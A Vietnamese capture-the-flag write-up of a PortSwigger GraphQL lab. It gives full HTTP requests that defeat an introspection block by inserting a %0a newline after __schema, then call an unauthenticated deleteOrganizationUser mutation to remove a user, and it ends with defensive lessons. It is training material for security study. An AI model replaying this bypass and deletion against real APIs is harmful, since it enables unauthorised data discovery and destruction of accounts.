









# Write-up: Finding a hidden GraphQL endpoint

### Tổng quan
Khai thác lỗ hổng trong ứng dụng web sử dụng API GraphQL, nơi endpoint `/api` cho phép truy vấn mà không công khai, và cơ chế bảo vệ introspection có thể bị bypass bằng cách thêm ký tự newline `%0a`. Bằng cách phân tích schema với InQL, kẻ tấn công tìm thấy các endpoint `getUser` và `deleteOrganizationUser`, sử dụng chúng để lấy thông tin người dùng và xóa người dùng với `id=3`, hoàn thành lab.

### Mục tiêu
- Khai thác endpoint GraphQL ẩn `/api`, bypass bảo vệ introspection để lấy schema, tìm và sử dụng mutation `deleteOrganizationUser` để xóa người dùng với `id=3`, hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser
- InQL (Burp Suite Extension)

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**  
- Truy cập endpoint `/api`:  
    - Kết quả: Trả về lỗi `"Query not present"`, xác nhận `/api` là endpoint GraphQL nhưng cần cung cấp query:  
    

- Thử truy vấn đơn giản để xác nhận GraphQL:  
  ```
  GET /api?query=query{__typename} HTTP/2
  ```  
- Kết quả: Trả về dữ liệu, xác nhận `/api` là endpoint GraphQL hợp lệ:  
  ```
  {
    "data": {
      "__typename": "Query"
    }
  }
  ```  
    

- Kiểm tra introspection để lấy schema:  
  ```
  GET /api?query=query+IntrospectionQuery+%7B%0D%0A++__schema+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A HTTP/2
  ```  
- Kết quả: Trả về lỗi `"GraphQL introspection is not allowed"`, xác nhận có bảo vệ chống introspection:  
    

2. **Bypass bảo vệ introspection**  
- Thêm ký tự newline `%0a` sau `__schema` để bypass bảo vệ:  
  ```
  GET /api?query=query+IntrospectionQuery+%7B%0D%0A++__schema%0a+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A HTTP/2
  Host: 0af6013n14op5678j0kl123400mn00kj.web-security-academy.net
  ```  
- Kết quả: Trả về schema GraphQL, bao gồm các query và mutation:  
    

3. **Phân tích schema với InQL**  
- Lưu response introspection thành file JSON.  
- Load file JSON vào InQL Scanner (Burp Suite Extension) để phân tích schema.  
- Kết quả: Tìm thấy các endpoint:  
  - `getUser(id: ID!)`: Truy vấn thông tin người dùng theo `id`.  
  - `deleteOrganizationUser(input: DeleteOrganizationUserInput!)`: Mutation xóa người dùng theo `id`.  
  
    

4. **Khai thác (Exploitation)**  
- Gọi query `getUser` với `id=3` (thay vì `id=1334` mặc định):  
  ```
  GET /api?query=query%20%7B%0A%09getUser(id%3A3)%20%7B%0A%09%09id%0A%09%09username%0A%09%7D%0A%7D HTTP/2
  Host: 0af6013n14op5678j0kl123400mn00kj.web-security-academy.net
  ```  
- Kết quả: Trả về thông tin người dùng với `id=3` (ví dụ: `username: carlos`):  
  ```
  {
    "data": {
      "getUser": {
        "id": "3",
        "username": "carlos"
      }
    }
  }
  ```  
    

- Gọi mutation `deleteOrganizationUser` để xóa người dùng với `id=3`:  
  ```
  GET /api?query=mutation+%7B%0A%09deleteOrganizationUser%28input%3A%7Bid%3A+3%7D%29+%7B%0A%09%09user+%7B%0A%09%09%09id%0A%09%09%7D%0A%09%7D%0A%7D HTTP/2
  ```  
  
- Kết quả: Người dùng với `id=3` bị xóa, lab xác nhận hoàn thành:  
    

- **Ý tưởng payload**:  
  - Bypass bảo vệ introspection bằng ký tự `%0a`, lấy schema để tìm mutation `deleteOrganizationUser`, và xóa người dùng với `id=3`.  

### Bài học rút ra
- Hiểu cách khai thác endpoint GraphQL ẩn, bypass bảo vệ introspection bằng kỹ thuật thêm ký tự newline, và sử dụng InQL để phân tích schema nhằm tìm mutation nhạy cảm.  
- Nhận thức tầm quan trọng của việc vô hiệu hóa hoặc giới hạn introspection trong môi trường production, kiểm tra nghiêm ngặt đầu vào query, và áp dụng xác thực cho các mutation nhạy cảm để ngăn chặn truy cập trái phép.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác endpoint GraphQL ẩn và bypass bảo vệ introspection, nhấn mạnh tầm quan trọng của việc vô hiệu hóa introspection và bảo vệ mutation nhạy cảm để ngăn chặn xóa người dùng trái phép. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*